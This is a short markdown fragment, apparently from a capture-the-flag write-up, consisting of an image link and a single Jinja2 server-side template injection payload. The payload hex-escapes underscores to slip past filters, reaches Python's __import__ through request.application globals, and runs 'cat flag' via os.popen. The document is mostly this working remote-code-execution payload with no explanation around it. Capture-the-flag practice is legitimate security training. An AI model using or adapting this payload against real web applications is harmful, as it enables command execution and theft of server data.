 ![alt text](image-37.png)
`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
`